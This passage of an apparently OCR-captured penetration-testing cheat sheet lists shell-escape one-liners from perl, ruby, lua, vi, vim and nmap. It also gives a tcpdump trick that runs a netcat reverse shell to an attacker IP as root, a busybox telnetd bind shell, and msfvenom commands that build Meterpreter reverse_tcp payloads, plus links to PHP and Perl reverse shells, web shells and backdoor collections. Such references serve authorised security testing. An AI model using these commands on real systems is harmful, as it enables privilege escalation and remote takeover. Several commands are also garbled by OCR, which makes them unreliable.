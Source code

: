     perl: `exec "/bin/sh";`

    ruby: `exec "/bin/sh"`

    lua: `os.execute('/bin/sh')`

    From within IRB: `exec "/bin/sh"`

    From within vi: `:!bash` or

    `:set shell=/bin/bash:shell`

    From within vim `':!bash':`

    From within nmap: `!sh`

    From within tcpdump

         echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root

    From busybox `/bin/busybox telnetd -|/bin/sh -p9999`

*   Pen test monkey PHP reverse shell  
    [http://pentestmonkey.net/tools/web-shells/php-reverse-shel](http://web.archive.org/web/20171113221652/http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

*   php-findsock-shell - turns PHP port 80 into an interactive shell  
    [http://pentestmonkey.net/tools/web-shells/php-findsock-shell](http://web.archive.org/web/20171113221652/http://pentestmonkey.net/tools/web-shells/php-findsock-shell)

*   Perl Reverse Shell  
    [http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://web.archive.org/web/20171113221652/http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

*   PHP powered web browser Shell b374k with file upload etc.  
    [https://github.com/b374k/b374k](http://web.archive.org/web/20171113221652/https://github.com/b374k/b374k)

*   Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell[https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1](http://web.archive.org/web/20171113221652/https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1)

*   Web Backdoors from Fuzzdb [https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors](http://web.archive.org/web/20171113221652/https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors)

*   Creating Meterpreter Shells with MSFVenom - [http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/](http://web.archive.org/web/20171113221652/http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/)

    _Linux_

    `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`

    _Windows_

    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`
